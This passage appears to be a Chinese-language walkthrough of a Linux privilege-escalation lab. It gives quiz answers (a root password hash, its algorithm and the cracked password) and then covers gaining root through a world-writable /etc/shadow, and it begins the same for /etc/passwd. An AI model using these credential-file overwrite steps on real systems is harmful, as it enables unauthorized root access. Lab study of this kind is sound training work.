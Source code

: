 :::info Answer the questions below

根用户的密码哈希是什么？

```plaintext
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0
```

用于生成根用户密码哈希的哈希算法是什么？

<details><summary> 具体操作步骤 </summary></details>

```plaintext
sha512crypt
```

根用户的密码是什么？

```plaintext
password123
```

:::

## 弱文件权限 - 可写入 /etc/shadow

`/etc/shadow` 文件包含用户密码哈希值，通常只有 root 用户可读。

请注意，虚拟机上的 `/etc/shadow` 文件可以被所有用户写入：

```shell
ls -l /etc/shadow
```

使用你选择的密码生成一个新的密码哈希：

```shell
mkpasswd -m sha-512 newpasswordhere
```

编辑 `/etc/shadow` 文件，将原始 root 用户的密码哈希替换为你刚生成的新哈希。

使用新密码切换到 root 用户：

```shell
su root
```

记得在继续之前退出 root shell！

## 弱文件权限 - 可写入 /etc/passwd

`/etc/passwd` 文件包含用户账户的信息。它可以被所有用户读取，但通常只有 root 用户可写。在历史上，`/etc/passwd` 文件包含用户密码哈希值，一些 Linux 版本仍然允许在那里存储密码哈希。

请注意，虚拟机上的 `/etc/passwd` 文件可以被所有用户写入：

```shell
ls -l /etc/passwd
```

使用你选择的密码生成一个新的密码哈希：
